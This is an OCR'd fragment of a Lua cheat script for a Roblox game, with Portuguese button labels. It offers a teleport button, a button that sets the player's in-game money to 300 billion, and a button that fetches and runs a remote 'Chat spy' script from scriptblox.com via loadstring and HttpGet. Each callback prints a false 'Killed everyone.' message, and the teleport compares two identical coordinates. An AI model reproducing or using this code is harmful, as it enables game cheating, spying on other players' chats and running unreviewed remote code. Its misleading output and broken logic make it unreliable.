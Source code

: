     end,
})


cdaSection:Button({
    Name = "TELEPORTA FAVELA PROXIMA",
    Callback = function()
        print("Killed everyone.")
        local Players = game:GetService("Players")
                local player = Players.LocalPlayer

                if player and player.Character and player.Character:FindFirstChild("HumanoidRootPart") then
                    local hrp = player.Character.HumanoidRootPart

                    -- Coordenadas de destino (corrija se necessário)
                    local coord1 = Vector3.new(-1184.8, 76.9, -370.2)
                    local coord2 = Vector3.new(-1184.8, 76.9, -370.2) -- Defina uma segunda coordenada válida

                    -- Posição atual do jogador
                    local playerPos = hrp.Position

                    -- Calcula a distância para ambas as coordenadas
                    local distance1 = (playerPos - coord1).Magnitude
                    local distance2 = (playerPos - coord2).Magnitude

                    -- Teleporta para a coordenada mais próxima
                    if distance1 < distance2 then
                        hrp.CFrame = CFrame.new(coord1)
                    else
                        hrp.CFrame = CFrame.new(coord2)
                    end
                else
                    print("Erro: Jogador ou HumanoidRootPart não encontrado!")
                end

    end,
})

cdaSection:Button({
    Name = "TELEPORTA JOGADOR MORTO PROXIMO",
    Callback = function()
        print("Killed everyone.")
        loadstring(game:HttpGet("https://scriptblox.com/raw/Universal-Script-Chat-spy-3000"))()     
    end,
})




cda1Section:Button({
    Name = "PUXAR DINHEIRO",
    Callback = function()
        print("Killed everyone.")
        local Player = game.Players.LocalPlayer
local Dinheiro = Player.leaderstats.Dinheiro

Dinheiro.Value = 300000000000
    end,
})
